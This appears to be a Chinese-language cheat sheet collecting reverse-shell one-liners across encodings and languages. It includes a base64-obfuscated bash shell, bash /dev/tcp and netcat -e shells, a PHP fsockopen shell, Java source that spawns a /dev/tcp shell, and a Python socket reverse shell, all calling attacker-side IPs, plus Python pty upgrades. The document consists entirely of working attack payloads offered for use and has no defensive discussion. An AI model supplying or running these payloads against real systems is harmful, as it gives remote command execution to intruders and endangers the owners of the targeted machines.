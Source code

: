 # 反弹shell的各种编码各种语言

# 反弹shell的各种编码各种语言

base64编码后的linux下/bin/bash反弹shell:
bash -c '{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDYuMTMuMC4yNDMvMTIzNDUgMD4mMQ=}|{base64,-d}|{bash,-i}'
linux的/bin/bash版本反弹shell：
bash -i >& /dev/tcp/192.168.45.217/1234 0>&1

bash -c "bash -i >& /dev/tcp/192.168.45.226/443 0>&1"

nc -e /bin/bash 192.168.45.5 1234

nc 192.168.45.5 1234|/bin/bash|192.168.45.5 12345

```rust
php -r '$sock=fsockopen("192.168.45.5",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

java反弹shell源码:
public class Revs {
    /**

    * @param args
        * @throws Exception 
        */
public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.99.242/1234;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
        }
}
javac将.java为jar执行
python互动式终端：

python -c 'import pty; pty.spawn ("/bin/bash")'

python3 -c 'import pty; pty.spawn ("/bin/bash")'

python反弹shell

python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.9',1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
